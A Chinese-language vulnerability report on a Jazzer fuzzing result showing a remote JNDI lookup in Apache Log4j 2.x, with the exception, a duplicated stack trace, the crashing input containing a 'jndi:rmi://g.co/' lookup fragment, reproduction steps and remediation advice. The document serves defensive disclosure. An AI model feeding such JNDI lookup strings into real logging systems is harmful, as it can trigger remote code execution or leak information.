

# 漏洞报告
***

## 漏洞概述
* 漏洞类型: 远程代码执行（FuzzerSecurityIssueCritical）

* 漏洞描述: 使用 Jazzer 工具对 Apache Log4j 进行测试时，发现存在一个高危安全漏洞。该漏洞涉及JNDI查找，攻击者可通过控制远程URL进行JNDI查找，从而可能引发远程代码执行或信息泄露。
## jazzer 报错截图

## 详细信息
#### 异常信息:
```
== Java Exception: java.lang.AssertionError: com.code_intelligence.jazzer.api.FuzzerSecurityIssueCritical: Remote JNDI Lookup
JNDI lookups with attacker-controlled remote URLs can, depending on the JDK version, lead to remote code execution or the exfiltration of information
    at com.code_intelligence.jazzer.sanitizers.NamingContextLookup.LookupHook(NamingContextLookup.kt:83)
    at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
    at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
    at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:221)
    at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1110)
    at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1033)
    at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
    at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:978)
    at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
    at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:467)
    at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:132)
    at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
    at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:344)
    at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:334)
    at org.apache.logging.log4j.core.layout.PatternLayout.toSerializable(PatternLayout.java:216)
    at org.apache.logging.log4j.core.layout.PatternLayout.toSerializable(PatternLayout.java:59)
    at org.apache.logging.log4j.core.layout.AbstractStringLayout.toByteArray(AbstractStringLayout.java:309)
    at com.example.Log4jFuzzer$FuzzingAppender.append(Log4jFuzzer.java:76)
    at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
    at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:129)
    at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
    at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
    at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:549)
    at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:498)
    at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:481)
    at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:456)
    at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:82)
    at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
    at org.apache.logging.log4j.spi.AbstractLogger.tryLogMessage(AbstractLogger.java:2205)
    at org.apache.logging.log4j.spi.AbstractLogger.logMessageTrackRecursion(AbstractLogger.java:2159)
    at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2142)
    at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:2017)
    at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1983)
    at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:740)
    at com.example.Log4jFuzzer.fuzzerTestOneInput(Log4jFuzzer.java:40)
DEDUP_TOKEN: be2c0453fedec39f
== libFuzzer crashing input ==
MS: 2 ChangeBit-PersAutoDict- DE: "rmi://g.co/"-; base unit: 968db9335a224bd9d9fe97123b385518533b74ed
0x23, 0x0, 0x89, 0xd5, 0xb0, 0x1, 0x2c, 0x0, 0x24, 0x5b, 0x6a, 0x6e, 0x2c, 0x0, 0x24, 0x7b, 0x6a, 0x6e, 0x64, 0x69, 0x39, 0x72, 
0x6d, 0x69, 0x3a, 0x2f, 0x2f, 0x67, 0x2e, 0x63, 0x6f, 0x2, 0x7d, 0x1, 0x3a, 0x5b, 0x7d, 0x1, 0x3a, 0x5b, 0x7d, 0x2c, 0x9, 
0x24, 0x7b, 0x6a, 0x6e, 0x6c, 0x69, 0x67, 0x3a, 0x2b, 0x2b, 0x2b, 0x2b, 0x3b, 0x0, 0x70, 0x70, 0x7b, 0x3a, 0x7d,
#\x00\x80\xd5\xb0\x01,\xee\x73\x5b\x6a\x6e,\xed\x53{jndi:rmi://g.co/\x02:\xe1:{},\xee\x73{jndi:;++++;\x00pp{:}
```


#### 异常分析:

* 异常信息: java.lang.AssertionError: com.code_intelligence.jazzer.api.FuzzerSecurityIssueCritical: Remote JNDI Lookup 表示在处理输入时，存在远程JNDI查找漏洞。
* 异常位置: 异常发生在 NamingContextLookup.LookupHook 方法中，该方法处理JNDI查找请求。
* 传播路径: 异常沿着调用栈传播，最终在 Log4jFuzzer.fuzzerTestOneInput 方法中被捕获。
#### 调用栈:
```
at com.code_intelligence.jazzer.sanitizers.NamingContextLookup.LookupHook(NamingContextLookup.kt:83)
at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:221)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1110)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1033)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:978)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:467)
at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:132)
at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:344)
at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:334)
at org.apache.logging.log4j.core.layout.PatternLayout.toSerializable(PatternLayout.java:216)
at org.apache.logging.log4j.core.layout.PatternLayout.toSerializable(PatternLayout.java:59)
at org.apache.logging.log4j.core.layout.AbstractStringLayout.toByteArray(AbstractStringLayout.java:309)
at com.example.Log4jFuzzer$FuzzingAppender.append(Log4jFuzzer.java:76)
at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:129)
at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:549)
at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:498)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:481)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:456)
at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:82)
at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
at org.apache.logging.log4j.spi.AbstractLogger.tryLogMessage(AbstractLogger.java:2205)
at org.apache.logging.log4j.spi.AbstractLogger.logMessageTrackRecursion(AbstractLogger.java:2159)
at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2142)
at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:2017)
at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1983)
at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:740)
at com.example.Log4jFuzzer.fuzzerTestOneInput(Log4jFuzzer.java:40)
```

## 影响范围
#### 受影响版本: Apache Log4j 2.x 版本

#### 潜在影响:

* 远程代码执行: 攻击者可以通过控制远程URL来执行任意代码。
* 信息泄露: 攻击者可以通过JNDI查找获取敏感信息。
## 复现步骤
* 使用 Jazzer 工具对 Apache Log4j 库进行模糊测试。
* 提供包含远程URL（如rmi://g.co/）的输入，触发 JNDI 查找过程。
* 观察程序抛出 com.code_intelligence.jazzer.api.FuzzerSecurityIssueCritical 异常。
## 修复建议
* 禁用 JNDI 功能: 在 Log4j 配置中禁用 JNDI 功能，或者在代码中确保不进行JNDI查找。
* 输入验证: 增加输入数据的验证逻辑，确保数据格式合法，避免引入恶意URL。
* 更新库: 检查 Log4j 库的最新版本，查看是否已有相关修复，并考虑升级到最新版本。
* 安全编码实践: 遵循安全编码实践，确保代码在处理和输出数据时不会引入安全漏洞。

## 漏洞原理
**JNDI（Java Naming and Directory Interface）**
JNDI 是 Java 提供的一种 API，用于访问命名和目录服务。攻击者可以构造恶意的 JNDI 查找请求，从而引导应用程序访问恶意的远程资源，如 RMI（Remote Method Invocation）服务器。